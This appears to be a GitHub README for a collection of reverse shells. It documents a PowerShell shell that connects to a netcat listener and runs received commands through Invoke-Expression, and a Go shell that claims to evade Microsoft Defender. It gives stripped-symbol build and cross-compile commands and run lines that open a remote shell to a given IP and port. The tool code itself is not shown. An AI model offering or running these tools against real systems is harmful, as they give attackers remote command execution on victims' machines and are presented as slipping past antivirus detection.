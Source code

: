 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1</code>


<code>pwsh_revshell -ip 127.0.0.1 -port 3333</code>

# Golang

Golang reverse shell. Does runtime OS detection and selects propert shell for Windows, Mac, and Linux. Is not detected currently by Microsoft Defender.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:

<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>
